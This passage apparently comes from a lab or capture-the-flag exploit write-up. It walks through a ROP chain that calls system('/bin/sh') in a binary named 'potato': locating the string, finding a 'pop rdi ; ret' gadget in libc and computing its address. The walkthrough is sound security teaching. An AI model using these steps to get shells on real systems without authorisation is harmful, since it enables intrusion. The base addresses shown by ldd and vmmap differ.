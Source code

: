 ```bash
gef➤  x/8bx 0x4088c7
0x4088c7:	0x2f	0x62	0x69	0x6e	0x2f	0x73	0x68	0x00
```

To execute the `system()` function we need to pass it an argument. Consulting the [man pages for syscall](https://man7.org/linux/man-pages/man2/syscall.2.html) shows in the following table that arguments for syscalls need to be passed via certain registers. Interesting for this attack is the first argument so the `rdi` register.


```bash
The second table shows the registers used to pass the system call arguments.
       Arch/ABI      arg1  arg2  arg3  arg4  arg5  arg6  arg7  Notes
       ──────────────────────────────────────────────────────────────
          [omitted for readability]
       x86-64        rdi   rsi   rdx   r10   r8    r9    -
       x32           rdi   rsi   rdx   r10   r8    r9    -
          [omitted for readability]
```

To set a value to the `rdi` register a little trick with a ROP gadget was used. By first using a ROP gadget that executes `pop rdi ; ret` the next value on the stack will be written to `rdi`. To find a ROP gadget the ROPgadget python tool was used to scan the linked libc library for a fitting gadget.

First the used libc library is identified with `ldd`.

```bash
$ ldd potato
        [omitted for readability]
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff780a000)
        [omitted for readability]
```

Then the ROP gadget is identified by scanning the linked libc library.

```bash
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
0x000000000002a205 : pop rdi ; ret
```

This address is not the final usable address but an offset we need to add to the libc addresses in our programs memory space. To identify the base address of the libcs memory space we can use `vmmap` in gdb.

```bash
gef➤  vmmap
[ Legend:  Code | Stack | Heap ]
Start              End                Offset             Perm Path
[omitted for readability]
0x0000155554c0a000 0x0000155554c32000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc.so.6
[omitted for readability]
```
With the base address `0x0000155554c0a000` and the offset `0x000000000002a205` we can calculate the final address of the gadget
`gadgetAddress = baseAddress + gadgetOffset`. This resulted in `0x0000155554c34205`.

